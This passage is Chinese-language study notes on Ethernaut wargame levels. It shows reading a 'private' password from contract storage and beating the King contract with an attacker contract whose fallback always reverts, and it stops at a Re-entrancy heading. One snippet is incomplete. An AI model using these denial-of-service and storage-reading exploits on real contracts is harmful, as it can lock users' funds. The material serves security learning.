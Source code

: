 - 在网上查到的：
    
    ```
    web3.eth.getStorageAt("0xd22f593d19cc91d53cad61670fb8474624e8e4a7", 1, function(x, y) {alert(web3.toHex(y))})
    ```
    
- 即可查看合约0xd22f593d19cc91d53cad61670fb8474624e8e4a7的第2个stroge变量的值，即password
- 在remix中把password解锁即可

## king

- 合约代码：要求成为永远的king
- `pragma solidity ^0.4.18;
import 'zeppelin-solidity/contracts/ownership/Ownable.sol';
contract King is Ownable { address public king; uint public prize; function King() public payable { king = msg.sender; prize = msg.value; } function() external payable { require(msg.value >= prize || msg.sender == owner); king.transfer(msg.value); king = msg.sender; prize = msg.value; }
}`
- 题解关键：king.transfer(msg.value); 利用转账函数transfer在转过程中报错从而无法继续执行下面king = msg.sender;的代码，就不会产生新国王了
- 获取当前国王的价格：
    
    ```
    fromWei((await contract.prize()).toNumber())
    ```
    
- 构建新合约并抛出异常让transfer函数无法继续执行：
    
    ```
    pragma solidity ^0.6.0;
    
    contract A{
        address target = 0x20b5Ff3460aE2a6C7D8fdE858CD1C6e1311445D4;
        function attack() payable public {
            target.call{value : 1 ether}("");
        }
        fallback() external payable {
            require(false);
        }
    }
    ```
    
- 网上查阅到的方法：
    
    ```
    pragma solidity ^0.4.18;
    contract KingAttack {
      function KingAttack() public payable {
        address victim = 0x00023c2d053a342b80116d1ff0b986f5d821a08d91; // instance address
        victim.call.gas(1000000).value(msg.value);
      }
    ```
    

### ****Re-entrancy****
